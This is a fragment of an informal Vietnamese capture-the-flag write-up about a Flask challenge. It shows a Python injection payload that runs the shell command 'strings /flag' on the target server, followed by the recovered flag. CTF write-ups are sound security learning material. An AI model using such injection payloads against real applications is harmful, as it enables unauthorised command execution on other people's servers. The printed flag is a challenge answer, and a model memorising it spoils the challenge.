  ![alt text](image-41.png)
- Tới đay cat /flag nó ra rỗng mé nó. Tôi sử dụng đại tìm kiếm =))
- <b>__import__('os').popen('strings /flag | grep CHH').read();</b>
FLAG: CHH{flask_Dev_Can_HacK_d128d9414c946ef8dc07d520a714e13f}\n